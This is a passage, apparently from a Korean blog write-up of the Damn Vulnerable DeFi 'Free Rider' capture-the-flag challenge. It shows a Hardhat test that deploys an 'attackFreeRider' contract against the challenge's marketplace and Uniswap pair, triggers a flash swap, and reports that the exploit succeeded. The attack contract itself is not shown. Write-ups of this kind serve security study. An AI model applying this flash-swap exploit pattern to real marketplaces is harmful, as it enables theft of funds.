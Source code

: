 ```tsx
it('Exploit', async function () {
        const SolutionPoolFactory = await ethers.getContractFactory('attackFreeRider',attacker);
        this.sol = await SolutionPoolFactory.deploy(
            this.nft.address,
            this.uniswapPair.address,
            this.buyerContract.address,
            this.marketplace.address,
            this.weth.address);

        this.sol.connect(attacker).flash_swap()
        
    });
```

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c63840d2-740c-46fe-a475-1cb52a693d1f/%EC%84%B1%EA%B3%B5.png)

npm run free-rider를 통하여 Exploit이 성공적으로 진행되어 문제의 목표를 달성한 것을 확인할 수 있다.
